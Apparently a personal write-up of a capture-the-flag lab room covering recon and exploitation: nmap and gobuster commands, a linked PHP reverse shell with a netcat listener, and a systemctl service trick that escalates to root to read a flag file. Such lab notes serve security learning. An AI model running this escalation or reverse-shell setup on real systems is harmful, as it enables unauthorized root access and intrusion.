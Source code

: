 # Vulnversity room
Learn about active recon, web app attacks and privilege escalation.

## what was done

* scan machine with nmap
```sh
nmap -sV <machines ip>
nmap -A -T5 <ip> -vv
nmap --script vuln <ip>
nmap -T5 -p- -vv <ip>
```

* locate directories with gobuster

```
gobuster dir -u http://<ip>:3333/ -w rockyou.txt
```

* Intercept traffic with Burp Suite

* reverse shell with php script

*https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php*

```
nc -lvp 1234
``` 

* escalate privilage by systemctl

```sh
eop=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$eop

/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```



## what was learnt

*Never allow submit a php file in a form*

*we need to set proxy on browser in order burpsuit can read the network traffick*


## tools

* nmap
* gobuster
* burpsuit
* reverse shell with php script
* escale privilage through systemctl